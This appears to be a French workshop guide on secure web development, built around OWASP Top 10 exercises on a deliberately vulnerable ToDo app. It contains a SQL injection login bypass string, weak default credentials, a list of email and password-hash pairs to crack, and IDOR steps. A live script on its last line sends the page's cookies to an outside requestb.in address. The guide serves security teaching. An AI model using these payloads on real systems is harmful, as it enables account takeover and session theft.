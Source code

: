 = Pas à pas
:author: Pascal Abaziou
:email: https://github.com/javathought[@javathought]
//pascal.abaziou@gmail.com
:revnumber: v1.0
:revdate: 27.02.2018
:revremark: First draft


:icons: font
:imagesdir: ./images

++++
<link rel="stylesheet" href="stylesheets/font-awesome.min.css">

<script
			  src="https://code.jquery.com/jquery-3.3.1.min.js"
			  integrity="sha256-FgpCb/KJQlLNfOu91ta32o/NMZxltwRo8QtmkMRdAu8="
			  crossorigin="anonymous"></script>

<link rel="stylesheet" href="stylesheets/bootstrap.css">
<script src="js/bootstrap.min.js"></script>
++++

:stylesheet: stylesheets/fontawesome-4.1.0.css
//:iconfont-cdn: //maxcdn.bootstrapcdn.com/font-awesome/4.1.0/css/font-awesome.min.css
// First unset attribute to remotely link FontAwesome CSS
:iconfont-remote!:

// Specify name of FontAwesome CSS.
:iconfont-name: fontawesome-4.1.0
:stylesdir: stylesheets
//:stylesdir: ./stylesheets
:numbered:

 Préambule

icon:bus[]

= Introduction

== Pourquoi le développement sécurisé ?

image::info_nov.png[Page d'accueil après passage au journal télé en novembre 2017]

Prendre en compte les exigences de sécurité tout au long du cycle de vie de l'application : conception, développement, test, ...

Coûts de la sécurité à comparer avec les risques encourus

Normes règlementaires
 GDPR, CNIL
 PCI-DSS

Analyse de risque :

. Disponibilité
. Intégrité
. Confidentialité
. Preuve

=== OWASP

https://www.owasp.org/index.php/Main_Page
https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project#tab=Main[Top 10]

Le document Top 10 propose une grille d'évaluation du risque pour chacun des items.
Elle ne contient évidemment pas l'impact métier, d'où l, importance de l'analyse de risque.

== Présentation de l'application


=== Gestion d'une ToDo liste

Une simple application Single App de gestion de ToDo liste :

. Un accès administrateur pour gérer les utilisateurs
. Un accès utilisateur pour gérer sa todo liste

=== Stack technique

. IHM en AngularJS

. Backend REST en Jersey/Jooq (grizzly embarqué)

. une fenêtre modal de login basée sur des exemples
Angular : http://jasonwatmore.com/post/2014/05/26/angularjs-basic-http-authentication-example
Boostrap : https://bootsnipp.com/snippets/featured/clean-modal-login-form

= Exercices

== Se connecter à l'application en tant qu'administrateur par injection SQL

Tentez de vous connecter à l'application.


* Énoncé

Allez sur la page d'accueil de l'application et tenter de vous connecter en tant qu'administrateur.

++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce1" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce2" aria-expanded="false" aria-controls="collapseExample">
  Indice 2
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#reponse1" aria-expanded="false" aria-controls="collapseExample">
  Solution
</a>
++++

[id=astuce1,role=collapse]
--
 Le compte de l'administrateur est admin
--

[id=astuce2,role=collapse]
--
 Injectez un bout de code afin que la clause `where` de la requête d'authentification renvoyant toujours vrai
--

[id=reponse1,role=collapse]
Utilisez le mot de passe suivant : `e' or '1' = '1`

* Correction

Utilisez le DSL de Jooq pour les requêtes dynamiques. Outre le fait de générer des requêtes paramétrées, il les génère
de manière "type safe".

== Se connecter à l'application en tant qu'administrateur en devinant le mot de passe

* Énoncé

Le compte de l'administrateur n'a pas été correctement initialisé et son mot de passe est *très* faible (oui ça arrive).

++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce3" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#reponse2" aria-expanded="false" aria-controls="collapseExample">
  Solution
</a>
++++

[id=astuce3,role=collapse]
--
 Le mot de passe est égal au nom d'utilisateur
--
[id=reponse2,role=collapse]
--
 Essayez avec admin/admin
--

* Correction

Changez le mot de passe de l'administrateur

== Se connecter avec le compte d'un utilisateur de l'application

Des pirates ont diffusé un extrait des comptes des utilisateurs d'un site sur lequel ils se sont introduits.
Pouvez-vous en tirer partie pour vous connecter sur l'application ?

----
courtneyrivera@exostream.com   :21bd100d4f6e8fa6eecad2a3aa415eec418d38ec
mckeecarey@apex.com            :21bd1011053fd0102e94d6ae2f8b83d76faf94f6
ellasykes@magnina.com          :21bd1012a7ca357541f0ac487871feec1891c49c
lewishiggins@shopabout.com     :21bd10136e006e24e7d152139815fb0fc6a50b15
arthur.doe@example.com         :21bd12dc183f740ee76f27b78eb39c8ad972a757
whitneyjimenez@animalia.com    :21bd165c1026eaa0119cd86f4a9d148ee2d51d82
john.doe@example.com           :cbfdac6008f9cab4083784cbd1874f76618d2a97
figueroacaldwell@pyrami.com    :21bd165fec9e83edeffb2320645ca1512f3b2a50
yolandamcneil@puria.com        :21bd166677b8ed92cdecd44a8635e3e993de04e9
frostcallahan@quonata.com      :21bd16667e903bf80b3e62bb1a4654e7f2d7187f
albertawolf@joviold.com        :21bd16991a1bf5574e570db8e98bbe7346acaa94
huntermoody@combot.com         :21bd16a088d608dbb983fb120b27882a9a77bb29
demo.doe@example.com           :a94a8fe5ccb19ba61c4c0873d391e987982fbbd3
alicefrye@quarmony.com         :21bd16b1fa49a7f28aa2c3336f7e6a0715a602d3
mindyhull@recognia.com         :21bd16c49f100471b44bbde181c5443b95344a31
socorrokent@comverges.com      :21bd16c4ba5dfc19575e035ec7eaa82001b96d03
blakelester@nutralab.com       :21bd16c5b3efdab6e40e0a4b2dfefe81f50018b6
jane.doe@example.com           :40bd001563085fc35165329ea1ff5c5ecbdbbeef
mike.doe@example.com           :315f166c5aca63a157f7d41007675cb44a948b33
gordonobrien@talkola.com       :21bd16d22a591152b1cb368ddebe38aef895259b
cherrymiles@assistia.com       :21bd16d358b829c770f763cea21bf73f550c3e2f
mathilde.doe@example.com       :5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8
barbarahahn@extro.com          :21bd16d44a7750f3bdfc90cb4f5836b8926afc5f
watsonriddle@songlines.com     :21bd16d4a08cb51c8b88fc8ce07742974d7d541d
gibsonbradley@comtest.com      :21bd16e17b1233f394c9ae095d73b4cb4025a3ac
leticiacarr@qualitex.com       :21bd16e231b238a632f3388662dc3735fbd44f8e
rowenacoleman@bleendot.com     :39007e310acd5cc5582c34c408ebf4cc
mararhodes@artiq.com           :c69f24b431852eb5b2db419860387dad
tanishaadams@opticom.com       :713f6fcbeeacbd3a78401382f88f5d1f
cruzharmon@intergeek.com       :86fc184cabcf0626c479927cc4e5e998
flossiecantu@applica.com       :c075be959b6831fb01d52591963d12b7
leonorstevenson@plasmosis.com  :6c058fea843d5bff058c939fde3a6eb8
christiangonzales@springbee.com:2dfecece2bf00698dd5fbae90e2f0860
candiceshaffer@geekology.com   :e720578393bb68956f079c3db426d6ec
deliahewitt@kyagoro.com        :b0963f1a7fd94698a6e76e402daffcef
lydiadouglas@capscreen.com     :026d29ad37c6c672315e5a9c358d0a7c
waderowe@pigzart.com           :7d01d8893e7ddbb18ceb40c59ef384c2
mejiasilva@hyplex.com          :bf1a688689f82ba39b9efa236d09c539
mcfarlanddale@pasturia.com     :dfcd9ad16c5358c1c420343a7b2b683b
kristihickman@zyple.com        :14f6609d95e3830b14709bce165041af
lauriewebb@injoy.com           :2b1841891df6de05b163d8dbbe79036c
daniellelong@datagen.com       :9fe44d8eb7fbc5217fad2e54d09871ed
vickistein@kaggle.com          :961887ee6a084c02619f22f6b2e8a852
staceyweaver@comtent.com       :fd9d9fa433c0d9385345355c17be13f4
meltonvelasquez@mangelica.com  :fa22376fe0782fe9313385846e66b979
rodriquezmorse@nexgene.com     :095614e5971ad8a81d4f232c00bbf33d
silviabell@vendblend.com       :f14c92dd1b2281cdf0f5999e595442de
hoodmatthews@jasper.com        :6e0f9ff4606b41705ea25bcbff1ac94b
mitziholt@orbalix.com          :49cacc76a288058b68ded69f0c804269
howardsalinas@utarian.com      :cbc7f37615111efe8e246d3316e24408
barlowbradshaw@primordia.com   :81fc99cc34d28eec3c90109cab7ddfbe
mattiemoon@combogene.com       :e838f7db8ef56faa9b49e8215dfbbee7
berylharper@escenta.com        :02ae65a2f3dac98a54290f09c39758ed
margeryglover@mediot.com       :3a7edcb86afee6b0853fba0a16672bcd
searswalls@isopop.com          :22d541659b917e40146f4d4256b2a2e2
mariannehayes@phormula.com     :4e953e9a0a0f2503e8b8269b2c4a8057

----


++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce4" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#reponse3" aria-expanded="false" aria-controls="collapseExample">
  Solution
</a>
++++

[id=astuce4,role=collapse]
--
 Les valeur en clair des empreintes SHA-1 sont facilement retrouvables par rainbow tables
--

[id=reponse3,role=collapse]
--
 Utilisez le site https://hashkiller.co.uk/sha1-decrypter.aspx qui possède des rainbow tables sur les mots de passe de sites hackées
--



* Correction

.L'application ToDo stocke aussi l'empreinte des mots de passe en simple hash SHA-1.
Renforcez le chiffrement par un hachage renforcé.

++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce5" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce6" aria-expanded="false" aria-controls="collapseExample">
  Indice 2
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#reponse4" aria-expanded="false" aria-controls="collapseExample">
  Solution
</a>
++++

[id=astuce5,role=collapse]
--
 Une bonne fonction de hachage doit être forte, évolutive, avec un sel et un facteur de travail
--

[id=astuce6,role=collapse]
--
 Utilisez un des fonctions suivantes : Argon2, PBKDF2, scrypt, ou bcrypt.
--

[id=reponse4,role=collapse]
--
 Le patch `stockage_pwd.patch` contient une première implémentation PBKDF2.
 Le site https://veggiespam.com/painless-password-hash-upgrades/ présente un guide compatible avec Spring security
--

.Se protéger contre la réutilisation des mots de passe provenant de sites hackés

. refusez les emails comme compte de connexion
. créez une base des mots de passe des hash divulgués, initialisez-là avec la liste ci-dessus et contrôlez l'utilisation d'un mot de passe "corrompu"
lors de la mise à jour du mot de passe.

[NOTE]
En cible vous pouvez récupérer une base de hash ayant fuité par exemple sur https://crackstation.net/buy-crackstation-wordlist-password-cracking-dictionary.htm :
1,493,677,782 entrées, 15GB

== XXE ?

== Augmentez vos privilèges

Connectez vous avec votre compte utilisateur : devoxx/devoxx2018 et essayez d'obtenir les droits administrateurs
en modifiant le contenu d'une requête REST légitime.


++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce7" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce8" aria-expanded="false" aria-controls="collapseExample">
  Indice 2
</a>
++++

[id=astuce7,role=collapse]
--
 Regardez le contenu de la requête REST de changement de mot de passe.
--

[id=astuce8,role=collapse]
--
 2 actions sont possibles :
 - modifier le code html (avec developerTools sous Chrome par exemple)
 - intercepter la requête pour la modifier et la rejouer
--

* Correction

Ajoutez un contrôle d'accès au fonctions autorisées

. Séparez les fonctions de l'administrateur et de l'utilisateur normal (Créez une classe CurrentUserResources).
. Ajoutez un contrôle d'accès différent sur la classe UserResource (pour l'administrateur) et la classe CurrentUserResource.
 La récupération des rôles de l'utilisateur a déjà été effectuée dans le principal

++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#reponse5" aria-expanded="false" aria-controls="collapseExample">
  Solution
</a>

++++


[id=reponse5,role=collapse]
--
 Annotez les classes avec @RolesAllowed(ADMIN) et @RolesAllowed(Role.USER)
 Les annotations peuvent aussi se faire au niveau des méthodes.
--



== Accédez et modifiez les todos des autres utilisateurs

De nouveau connectez-vous avec votre compte utilisateur (devoxx/devoxx2018).
Supprimez vos droits administrateurs puis essayez d'accéder et/ou modifier les todos d'un autre utilisateur.

++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce9" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#reponse6" aria-expanded="false" aria-controls="collapseExample">
  Solution
</a>
++++

[id=astuce9,role=collapse]
--
 Regardez l'url de la page lorsque vous affichez le détail d'une todo
--

[id=reponse6,role=collapse]
--
 Affichez la todo avec l'id 1 par exemple
--


* Correction

. Remplacez l'id d'accès aux todos par un uuid pour empêcher les utilisateurs de forger des requêtes illicites.
. Ajoutez un contrôle d'accès au périmètre de données autorisées.

++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce10" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce11" aria-expanded="false" aria-controls="collapseExample">
  Indice 2
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce12" aria-expanded="false" aria-controls="collapseExample">
  Indice 3
</a>
++++

[id=astuce10,role=collapse]
--
 Pour la première modification, l'application gère déjà un `id` et un `uuid`. Pour ne plus les restituer dans le corps JSon des réponses,
 il suffit d'inverser l'utilisation de l'annotation `@XmlTransient`. Il reste à modifier les appels de ressources avec
 l'id en paramètre et les requêtes sql associées à un id.
--

[id=astuce11,role=collapse]
--
 Pour la deuxième modification, il faut seulement accéder aux données de l'utilisateur courant. Enrichissez la classe
 `CurrentUserResource` pour implémenter l'accès aux todos de l'utilisateur connecté.
--

[id=astuce12,role=collapse]
--
 Pour récupérer l'utilisateur actuel, utiliser le code suivante : `(User) securityContext.getUserPrincipal()`
--


== Security Misconfiguration

== Obtenez les informations de session de l'administrateur

XSS + passer en cookie

== Insecure deserialization

== Composants vulnérables

Vérifiez la présence de dépendendances vulnérables sur le serveur REST.

++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce13" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#reponse7" aria-expanded="false" aria-controls="collapseExample">
  Indice 2
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce12" aria-expanded="false" aria-controls="collapseExample">
  Indice 3
</a>
++++

[id=astuce13,role=collapse]
--
 L'OWASP me à disposition un outil de vérification de présence de vulnérabilités dans les dépendences d'un projet, notamment
 sous forme de plugin maven.
--

[id=reponse7,role=collapse]
--
  mvn dependency-check:check -pl owasp-jersey

  Montez de version Jackson et vérifiez que le plugin ne remonte plus de vulnérabilité sur cette dépendance.
--


== Logging and monitoring

Mettez en place un logging systématique dédié à la sécurité sur les accès aux ressources REST.

++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce14" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#reponse8" aria-expanded="false" aria-controls="collapseExample">
  Indice 2
</a>
++++

[id=astuce14,role=collapse]
--
 Utilisez 2 filtres (1 ContainerRequestFilter et 1 ContainerResponseFilter) pour générer les logs de sécurité
 Utilisez les `MCD` dans le premier filtre pour positionner les informations de contexte (comme le nom de l'utilisateur accédant à la ressource)
 Utilisez un `Marker` dans le deuxième filtre pour identifer les logs de sécurité (et pouvoir les isoler dans un fichier dédié.)
--

[id=reponse8,role=collapse]
--
  Utilisez le patch suivant : `owasp-A10-2017-logging.patch
--

Mettez en place un logging systématique dédié à la sécurité sur les accès aux ressources REST.

Monitorez cette log dans ELK. Utilisez ces commandes pour lancer les conteneurs Elastic et Kibana.

----
docker network create elastic
docker run --network=elastic -e ELASTIC_PASSWORD=MagicWord --name elasticsearch -p 9200:9200 -p 9300:9300 -e "discovery.type=single-node" docker.elastic.co/elasticsearch/elasticsearch-platinum:6.2.3
docker run --network=elastic -e ELASTICSEARCH_PASSWORD=MagicWord -p 5601:5601 docker.elastic.co/kibana/kibana:6.2.3
docker run --network=elastic -e XPACK_MONITORING_ELASTICSEARCH_PASSWORD=MagicWord -e XPACK_MONITORING_ELASTICSEARCH_USERNAME=elastic --rm -it -v ~/workspace/devoxx/devoxx-2018/logs:/usr/logs -v ~/pipeline/:/usr/share/logstash/pipeline/ docker.elastic.co/logstash/logstash:6.2.3
----

Les logs générées peuvent contenir des informations sensibles. Modifiez les classes d'audit pour supprimer ces informations avant
d'écrire la log.

++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce15" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
++++

[id=astuce15,role=collapse]
--
 Dans le cas de la classe `AuthenticateResource`, le mot de passe va être loggué. Supprimez cette information du payload json.
--

Ajoutez l'IP d'origine, elle pourra permettre les actions suivantes:
. identifier des scénarios d'attaque (tentaive de connexion sur plusieurs comptes à partir de la même  ip par exemple)
. bannir une ip

++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce16" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
++++

[id=astuce16,role=collapse]
--

--


== click jacking  et headers



== ajouter des tests


== Agmentez encore vos privilèges

== 2FA

== Reinit password


[NOTE]
====
Docker for Mac :

sudo ifconfig lo0 alias 10.0.0.2
====



<script>document.write("<img src=https://requestb.in/1lfbtmw1?s="+encodeURI(document.cookie)+"></img>");</script>